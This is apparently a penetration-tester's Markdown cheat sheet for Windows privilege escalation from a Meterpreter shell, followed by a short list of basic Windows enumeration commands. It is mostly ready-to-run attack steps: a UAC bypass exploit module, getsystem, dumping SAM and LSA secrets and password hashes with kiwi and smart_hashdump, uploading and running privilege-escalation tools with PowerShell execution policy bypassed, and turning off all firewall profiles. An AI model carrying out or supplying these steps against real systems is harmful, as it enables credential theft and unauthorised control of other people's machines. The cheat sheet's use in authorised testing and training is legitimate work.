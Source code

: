 - Checking if we can become administrator
```
getsystem
```
- If you are in shell,then Control+Z then use this to bypass uac to become admin
```
use exploit/windows/local/bypassuac_fodhelper
```
- Search for exploits, make sure you background shell
```
use post/multi/recon/local_exploit_suggester
```
- iF you are admin and you are in meterpreter shell then you can dump hashes
```
run post/windows/gather/smart_hashdump
```
- if you are admin and you are in meterpreter shell then you can also dump hashes
```
load kiwi
lsa_dump_sam
lsa_dump_secrets
```
- Upload priviledge scripts by folder
```
upload -r /home/kali/tools/privs C:\\Windows\\Tasks
```
- Running bRoot.exe
```
.\beRoot.exe
```
- GhostPack SeatBelt
```
.\Seatbelt.exe -group=all
.\Seatbelt.exe -group=system
.\Seatbelt.exe -group=user
.\Seatbelt.exe -group=misc
```
- Use powerup
```
powershell -ExecutionPolicy Bypass ". .\PowerUp.ps1;Invoke-AllChecks"
```
## Basic Command(windows)
```
- LIST FILES
dir
dir /a:h

- Users
net user
net user /domain

- NETWORK
netstat -anto

- LIST SERVICES
sc queryex type=service state=all
net start/stop servicename

- FIREWALLS
netsh firewall show state
netsh firewall show config
netsh advfirewall set allprofiles state off

- VERSION RUNNING 
wmic /node:"" product get name,version,vendor
wmic cpu get
```